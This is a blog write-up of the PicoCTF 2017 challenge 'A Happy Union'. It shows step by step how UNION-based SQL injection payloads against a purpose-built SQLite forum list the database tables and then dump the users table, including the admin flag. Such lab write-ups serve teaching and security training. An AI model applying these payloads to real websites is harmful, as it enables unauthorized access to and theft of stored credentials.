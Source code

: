 ```yaml
---
layout:     post
title:      "PicoCTF - A Happy Union"
subtitle:   "Write-Ups"
date:       2017-04-16 0:00:00
author:     "W3ndige"
header-img: "img/picoctf-header.jpg"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>A Happy Union - 110 PTS</h1>

<p>I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)</p>

{% highlight html %}
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
{% endhighlight %}

<p>A happy union? It has to do something with <b>union sql injection</b>. Let's firstly check, how bad can we go when registering a new user. </p>

{% highlight html %}
username: ' OR 1 = 1
password: asd
{% endhighlight %}

<p>Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create <b>UNION</b> injection. </p>

{% highlight sql %}
select id, user, post from posts where user = '' OR 1 = 1';
{% endhighlight %}

<p>Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's <b>sqlite</b> it won't be that hard. </p>

{% highlight sql %}
' union SELECT null, null, name FROM sqlite_master;--
{% endhighlight %}

<p>We have to use 2 <b>null</b> columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case. </p>

{% highlight html %}
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
{% endhighlight %}

<p>Great, we have <b>users</b> table, from which we can now try to get the flag. Here we go with the last query. </p>

{% highlight sql %}
' union SELECT user, pass, null FROM users;--
{% endhighlight %}

<p>User, pass column names? Let's check that out. </p>

{% highlight html %}
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
{% endhighlight %}

<p>Great SQL Injection challenge! </p>
